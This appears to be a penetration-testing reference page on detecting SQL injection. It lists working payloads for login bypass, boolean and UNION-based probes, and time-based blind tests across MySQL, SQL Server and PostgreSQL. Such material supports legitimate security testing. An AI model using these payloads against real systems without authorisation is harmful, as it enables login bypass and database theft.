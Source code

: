 ### SQL Injection Vulnerability Detection Testing

Systematic approaches to identify SQL injection vulnerabilities.

#### Basic Injection Tests

**Authentication Bypass Tests**
```sql
-- Login form testing
username: admin' OR '1'='1'--
password: anything

username: admin'/**/OR/**/1=1#
password: ignored

username: ' OR 1=1#
password: ' OR 1=1#
```

**Numeric Parameter Tests**
```sql
-- Integer parameter injection
id=1 AND 1=1        (normal response)
id=1 AND 1=2        (different/error response)
id=1' AND '1'='1    (syntax error expected)

-- Arithmetic operations
id=1+1              (should return record 2)
id=2-1              (should return record 1)
id=1*1              (should return record 1)
```

**String Parameter Tests**
```sql
-- String injection patterns
name='test' AND '1'='1
name='test' OR '1'='1
name='test'; SELECT * FROM users--
name='test' UNION SELECT 1,2,3--
```

#### Advanced Detection Techniques

**Time-Based Detection**
```sql
-- MySQL time delay
id=1; SELECT SLEEP(5)--
id=1' AND SLEEP(5)--

-- SQL Server time delay  
id=1; WAITFOR DELAY '0:0:5'--
id=1' AND WAITFOR DELAY '0:0:5'--

-- PostgreSQL time delay
id=1; SELECT pg_sleep(5)--
id=1' AND pg_sleep(5)>0--
```
